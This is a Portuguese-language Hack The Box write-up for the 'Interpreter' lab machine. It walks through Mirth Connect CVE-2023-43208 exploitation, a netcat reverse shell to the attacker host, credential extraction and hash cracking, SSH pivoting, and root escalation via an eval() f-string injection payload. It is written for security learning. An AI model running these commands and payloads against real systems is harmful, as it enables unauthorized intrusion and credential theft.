# Hack The Box — Interpreter


---

# Informações da Máquina

| Nome | Dificuldade | Plataforma | OS |
| ---- | ----------- | ---------- | -- |
| Interpreter | Medium | Hack The Box | Linux |

---

# Superfície de ataque

1. Enumeração inicial com Nmap  
2. Identificação do Mirth Connect Administrator  
3. Verificação da versão vulnerável Mirth Connect 4.4.0  
4. Exploração de RCE não autenticado via CVE-2023-43208  
5. Reverse shell como usuário `mirth`  
6. Enumeração local e descoberta de credenciais em configuração  
7. Acesso ao MariaDB local  
8. Extração de hash do usuário `sedric`  
9. Crack de hash PBKDF2-HMAC-SHA256 com Hashcat  
10. Acesso via SSH como `sedric`  
11. Enumeração de processo Python rodando como root  
12. Exploração de `eval()` inseguro em serviço Flask local  
13. Leitura da flag de root  

---

# Reconhecimento

A enumeração inicial foi feita com Nmap para identificar portas abertas, versões dos serviços e possíveis vetores de ataque.

```
nmap -sC -sV -A -T4 10.129.244.184
```



O scan revelou uma superfície externa relativamente pequena:

- **22/tcp — SSH**: OpenSSH 9.2p1 em Debian
- **80/tcp — HTTP**: Jetty, com título `Mirth Connect Administrator`
- **443/tcp — HTTPS**: Jetty, também associado ao Mirth Connect

O ponto mais interessante foi a presença do **Mirth Connect Administrator** nas portas web. Como o SSH normalmente exige credenciais válidas, a exploração inicial provavelmente estaria na aplicação web.

Também foi observado que o método HTTP `TRACE` estava habilitado. Embora isso não tenha sido o vetor principal, é uma configuração insegura que reforça a necessidade de investigar melhor o serviço web.

---

# Enumeração Web

Ao acessar a aplicação pelo navegador, foi exibida a interface do **Mirth Connect by NextGen Healthcare**.

```
http://10.129.244.184
```


A página apresentava duas áreas principais:

- **Mirth Connect Administrator**
- **Web Dashboard Sign in**

Esse tipo de painel administrativo exposto é um alvo importante durante a enumeração, principalmente quando a tecnologia e a versão podem ser identificadas.

---

# Identificação da Versão e Validação da Vulnerabilidade

Após identificar que o serviço era Mirth Connect, o próximo passo foi validar a versão e procurar vulnerabilidades públicas associadas.

Foi utilizado um script de detecção para confirmar se a instância estava vulnerável ao **CVE-2023-43208**.

```
python3 detection.py https://10.129.244.184
```



O script identificou:

```
Server version: 4.4.0
Vulnerable to CVE-2023-43208.
```

Esse resultado foi decisivo: agora havia uma versão exata e uma vulnerabilidade compatível. A partir disso, o foco deixou de ser enumeração genérica e passou a ser exploração controlada do RCE.

---

# Exploração — Remote Code Execution

Com a vulnerabilidade confirmada, foi utilizado o exploit público para executar um comando no alvo.

```
python3 CVE-2023-43208.py -u https://10.129.244.184 -c 'nc -c sh 10.10.14.228 4444'
```



A ideia aqui foi usar o RCE para iniciar uma conexão reversa para a máquina atacante. Antes de executar o payload, foi necessário deixar um listener ativo.

```
nc -lvnp 4444
```



A conexão foi recebida com sucesso, e o comando `id` mostrou que a shell estava rodando como:

```
uid=103(mirth) gid=111(mirth) groups=111(mirth)
```

Isso confirmou acesso inicial como o usuário de serviço do Mirth Connect.

---

# Pós-Exploração — Credenciais do Banco

Com acesso como `mirth`, o próximo passo foi procurar arquivos de configuração da aplicação. Serviços corporativos normalmente armazenam credenciais de banco em arquivos locais, e o Mirth Connect não foi exceção.

No arquivo de configuração da aplicação ``/usr/local/mirthconnect/conf/mirth.properties``, foram encontradas credenciais em texto claro:

```
database.username = mirthdb
database.password = MirthPass123!
```



Esse achado indicava que havia um banco MariaDB/MySQL local acessível com essas credenciais. Como o usuário `mirth` roda a aplicação, fazia sentido que ele tivesse permissão para ler a configuração e se conectar ao banco.

---

# Acesso ao MariaDB e Extração de Credenciais

Com as credenciais encontradas, foi possível acessar o banco local.

```
mysql -u mirthdb -p -h 127.0.0.1 mc_bdd_prod
```

Após autenticar com a senha encontrada, foram consultadas tabelas relacionadas a usuários e senhas.

```
select * from PERSON;
select * from PERSON_PASSWORD;
```



A enumeração revelou o usuário:

```
sedric
```

E um hash associado:

```
u/+LBBOUnadiyFBsMOoIDPLbUR0rk59kEkPU17itdrVWA/kLMt3w+w==
```

Nesse ponto, a hipótese era que essa senha pudesse ser reutilizada para acesso ao sistema via SSH. Porém, primeiro seria necessário identificar o formato do hash e quebrá-lo.

---

# Análise e Crack do Hash

O valor extraído do banco estava codificado em Base64. Após análise, ele foi convertido para um formato compatível com Hashcat como **PBKDF2-HMAC-SHA256** com 600.000 iterações.

Formato preparado:

```
sha256:600000:u/+LBBOUnac=:YshQbDDqCAzy21EdK5OfZBJD1Ne4rXa1VgP5CzLd8Ps=
```

O modo utilizado no Hashcat foi o `10900`, correspondente a PBKDF2-HMAC-SHA256.

```
hashcat -m 10900 sedric_hash.txt /usr/share/wordlists/rockyou.txt
```



O Hashcat recuperou a senha:

```
snowflake1
```

Esse foi um ponto importante da máquina: a exploração web forneceu uma shell de serviço, a shell permitiu ler configuração local, a configuração forneceu acesso ao banco, e o banco revelou uma credencial reutilizável.

---

# Movimento Lateral — SSH como sedric

Com a senha recuperada, foi testado login via SSH como `sedric`.

```
ssh sedric@10.129.244.184
```



O login foi bem-sucedido, confirmando que:

- `sedric` era um usuário válido do sistema
- a senha quebrada era válida para SSH
- havia reutilização de credencial entre aplicação e sistema operacional

A partir daqui, o acesso ficou mais estável do que a reverse shell inicial.

---

# Flag de Usuário

Após autenticar como `sedric`, foi possível acessar o diretório home do usuário e ler a flag.

```
ls
cat user.txt
```



---

# Enumeração para Escalação de Privilégio

Com acesso como `sedric`, o próximo objetivo foi procurar processos, permissões ou serviços locais que pudessem ser explorados para obter root.

Um dos comandos úteis nessa fase foi listar processos Python em execução:

```
ps aux | grep python
```



Entre os processos, um chamou atenção:

```
/usr/bin/python3 /usr/local/bin/notif.py
```

Esse processo estava rodando como **root**. Scripts customizados executando como root são sempre bons candidatos para análise, principalmente quando expõem serviços locais ou processam entrada controlada pelo usuário.

---

# Análise do Script `notif.py`

O conteúdo do script foi analisado com:

```
cat /usr/local/bin/notif.py
```



O script implementava um pequeno servidor Flask local, escutando em:

```
127.0.0.1:54321
```

O endpoint principal era:

```
/addPatient
```

O serviço recebia XML contendo dados de pacientes, processava os campos e gravava notificações em:

```
/var/secure-health/patients/
```

A primeira proteção relevante era a restrição por endereço remoto:

```
if request.remote_addr != "127.0.0.1":
    abort(403)
```

Isso impedia acesso remoto direto. Porém, como já havia acesso SSH como `sedric`, era possível interagir com o serviço localmente.

O ponto crítico estava na função `template()`:

```
template = f"Patient {first} {last} ({gender}), {{datetime.now().year - year_of_birth}} years old, received from {sender} at {ts}"
return eval(f"f'''{template}'''")
```

A aplicação tentava validar os campos com uma regex, mas a lista de caracteres permitidos incluía `{` e `}`. Isso é perigoso porque f-strings avaliam expressões Python dentro de chaves.

Em outras palavras: se um campo controlado pelo usuário chegasse até o `eval()` contendo `{expressao_python}`, essa expressão poderia ser executada no contexto do processo — que estava rodando como root.

---

# Teste do Serviço Local

Antes de explorar, foi feito um teste simples para entender o comportamento do endpoint.

```
python3 - << 'EOF'
import requests

url = "http://127.0.0.1:54321/addPatient"
xml = """<patient>
<firstname>A</firstname>
<lastname>B</lastname>
<sender_app>X</sender_app>
<timestamp>t</timestamp>
<birth_date>01/01/2000</birth_date>
<gender>M</gender>
</patient>"""

r = requests.post(url, data=xml)
print(r.text)
EOF
```

Resposta obtida:

```
Patient A B (M), 26 years old, received from X at t
```

Esse teste mostrou que:

- o serviço estava ativo
- o endpoint aceitava XML localmente
- os campos enviados eram refletidos no template
- a função de template estava sendo executada corretamente

Com isso, a próxima etapa foi testar se a expressão dentro de `{}` seria avaliada.

---

# Escalação de Privilégio — F-string Injection via `eval()`

Como o campo `firstname` era inserido no template e posteriormente processado pelo `eval()`, foi enviado um payload para ler `/root/root.txt`.

```
python3 - << 'EOF'
import requests

url = "http://127.0.0.1:54321/addPatient"
xml = """<patient>
<firstname>{open("/root/root.txt").read()}</firstname>
<lastname>B</lastname>
<sender_app>X</sender_app>
<timestamp>t</timestamp>
<birth_date>01/01/2000</birth_date>
<gender>M</gender>
</patient>"""

r = requests.post(url, data=xml)
print(r.text)
EOF
```



O resultado retornou a flag de root dentro da resposta HTTP.

Isso confirmou execução de código Python como root através de injeção em f-string avaliada por `eval()`.

---

# Vulnerabilidades Identificadas

### Mirth Connect RCE — CVE-2023-43208

A versão 4.4.0 do Mirth Connect permitiu execução remota de comandos sem autenticação, fornecendo acesso inicial como o usuário `mirth`.

### Credenciais em texto claro

O arquivo de configuração da aplicação continha credenciais de banco expostas em texto claro.

### Reutilização de credenciais

O hash recuperado no banco levou à senha do usuário `sedric`, que também era válida para SSH.

### Serviço local inseguro rodando como root

O script `/usr/local/bin/notif.py` executava como root e processava entrada controlada pelo usuário.

### Uso inseguro de `eval()` com f-string

A aplicação permitia caracteres `{}` na entrada e depois avaliava o template com `eval(f"f'''...'''")`, permitindo execução de expressões Python como root.

---

# Ferramentas Utilizadas

- Nmap
- Python3
- Netcat
- MariaDB/MySQL client
- Hashcat
- RockYou
- SSH

---

# Principais Aprendizados

- Painéis administrativos expostos devem ser priorizados na enumeração.
- Identificar versão exata pode transformar enumeração em exploração direta.
- Credenciais em arquivos de configuração continuam sendo um vetor comum de pós-exploração.
- Hashes em banco podem exigir conversão antes de serem usados no Hashcat.
- Movimento lateral via SSH geralmente fornece uma shell mais estável do que uma reverse shell.
- Processos customizados rodando como root devem ser analisados com atenção.
- `eval()` com entrada controlada pelo usuário é extremamente perigoso, especialmente combinado com f-strings.
- Restrições por localhost não impedem exploração quando o atacante já possui acesso local ao host.

---

# Autor

https://github.com/ninjaa-exe
